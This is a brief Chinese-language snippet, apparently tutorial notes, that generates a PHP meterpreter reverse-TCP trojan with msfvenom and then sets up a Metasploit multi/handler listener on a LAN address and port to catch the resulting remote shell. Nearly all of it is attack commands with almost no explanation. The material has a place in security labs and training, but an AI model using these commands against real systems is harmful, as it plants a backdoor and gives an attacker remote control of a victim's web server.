

# 制作木马，本地监听
#msfnevom -p php/meterpreter/reverse_tcp -lhost 192.168.2.184 -lport 6666 -f raw -o test.php
msf>use exploit/multi/handler
msf exploit(handler) >set payload php/meterpreter/reverse_tcp
设置下地址和端口，我们就开始监听了
msf exploit(handler) >set lhost 192.168.2.184
msf exploit(handler) >set lport 6666
msf exploit(handler) >exploit